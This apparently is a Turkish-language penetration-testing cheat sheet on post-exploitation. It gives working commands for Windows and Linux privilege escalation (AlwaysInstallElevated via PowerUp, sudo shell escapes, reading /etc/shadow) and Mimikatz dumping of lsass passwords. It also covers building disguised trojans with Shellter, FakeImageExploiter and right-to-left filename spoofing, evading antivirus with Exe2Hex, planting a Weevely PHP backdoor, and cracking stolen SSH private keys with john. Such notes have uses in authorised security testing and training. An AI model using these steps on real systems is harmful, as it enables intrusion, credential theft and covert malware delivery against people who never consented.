 ## 09. POST EXPLOİTATİON (İSTİSMAR SONRASI):

### YETKİ YÜKSELTME (WINDOWS)
    systeminfo hotfix dosyalarına bak. Güncelleme almayan yamayı bul. Sisteme sok.Yetki yükselt.
    
    Güncellemelerin Kontrolü : wmic qfe get Description, HotFixID, InstalledOn
   
    Yüklü uygulamaların kontrolü :  “wmic product get name, version”
   
    Bilinmeyen Path Yollarını Kontrol Etme : accessChk.exe aracıyla 
    
    Msi paketinin yüklenmesinin kontrolü : “reg query 
    
    HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer”  -> PS ekranına komutu girin. Değer 1 olarak ayarlıysa zafiyet mevcuttur. Zafiyeti tetiklemek için msi paketi üretmek gerekir.
    Import-Module .\powerup.ps1
    Write-UserAddMSI ile kullanıcı oluştur.

### YETKİ YÜKSELTME (LINUX)
    ***Kernel kontrol et. “uname -a” ile kernel sürümüne bak. Exploit ara.
    “searchsploit” den ara

    *** sudo –l komutu ile sudoers yetkilerini kontrol et.  

    1.  .bash_history dosyası okunarak önceden girilmiş komutlar incelenir.
    2.	İçinde password geçen dosyalar find komutu ile taranır.
    3.	sudo -l komutu ile yetkilere bakıldığında;
    nmap:
    sudo /usr/bin/nmap --interactive yazarak nmap komut satırına düşebiliriz.  !sh yazılır.
    vim:
    sudo /usr/bin/vim –c ‘!/bin/sh’
    apache2:
    sudo /usr/sbin/apache2 –f /etc/shadow    (shadow dosyasının içini okuma)

### Shellter :
	Oluşturulan zararlıyı başka dosyayla birleştirme aracı.
    Windows örneği : 
	a -> Enter -> no -> putty.exe -> y
	7 payload var. l seçersek listeden c seçersek kendi payloadımız.
	l -> 1 -> ip adresi -> port -> 

### Fake Image Exploiter
	Github’dan indir. Setting dosyası ayarlarını değiştirme;
	1	Leafpad ile aç.
	2	picture extension : jpeg (resim formatını gir)
	3	payload extension : exe (trojan formatını gir)
	4	“bash FakeImageExploiter.sh” -> Programı çalıştır.
	5	exe dosyayı göster -> jpeg dosyayı göster -> icon seç -> isim gir -> ip gir -> port gir -> metot gir
	
 	Daha inandırıcı olması için herhangi bir programla icon resmini değiştirebiliriz.
	Uzantısını değiştirebiliriz;
	Dosya adını kopyala, not defterine yaz. Karakter işlemden sağdan sola methodunu seç. Dosya adını yeniden oluştur.

### Exe2Hex :
    exe dosyalarını binary kodlarına çeviren araç. Bu sayede virüs programları bulamıyor.
    Örnek : Önce payload oluşturuyoruz. (SET programı ile)
    1 -> 4 creat payload -> 2 -> local ip gir -> port gir -> trojen oluştu. (payload.exe)
    “exe2hex -x payload.exe -p payload.cmd”
    Oluşturulan payload.cmd dosyasını metin belgesi ile aç. En sonuna hemen çalışması için start payload.exe gir .Kaydet.
    Hedef pc’de çalıştığında önce exe haline çevirir. En son yazdığımız komutla o exe çalışır.

### Mimikatz :
    Windows üzerinde parola elde etmeye yarayan araç.
    1.	Görev yöneticisinden lsass.exe ‘yi dump al.
    2.	Dinleme moduna al;	
    mimikatz # privilege::debug
    3.	Dump dosyasını mimikatz klasörüne at yada yolunu belirt.
    mimikatz # sekurlsa::minidump lsass.dmp
    4.	mimikatz # sekurlsa::logonPasswords full

### Powersploit :
	Windows üzerinde powershell ile çalışır.

### Proxy Chains :
	Ağ testlerinde gizlilik sağlayan bir araç. (Tor ağı üzerinden). Hız olarak biraz yavaş.

### 4nonimizer :
	Ağ üzerinde gizlilik sağlar.

	https://github.com/Hackplayers/4nonimizer.git githubdan indir.
	
	./4nonimizer install -> Yükle
	
	./4nonimizer start -> Programı başlat. ip adresini değiştirir.Vpn mantığı. Durdurmak için stop komutunu kullan

### Weevely :
	Php sunucularda virüs programına ve güvenlik duvarlarına yakalanmayan troje oluşturmaya yarar.
	“weevely generate 12345 /root/...  .php” (Arka kapı oluşturma işlemi)
    “weevely hedefe_atmış_olduğun_dosya_yolu 12345”

### SSH Private Key
    Sisteme girdikten sonra yetkili kullanıcının SSH Private Keyini /home/yetkili_kullanıcı/.ssh dizini altından okuyorsak locale alıp id_rsa.txt olarak kaydet.
    
    python3 /usr/share/john/ssh2john.py id_rsa.txt > decrypted.txt   (john anlayacağı şekle dönüştürür)
    
    john --wordlist=/usr/share/wordlists/rockyou.txt decrypted.txt (şifreyi kırar)
    
    ssh yetkili_kullanıcı@hedef_ip -i id_rsa.txt  (bağlan)  (yetki hatası verirse 0400 olarak chmod ver)
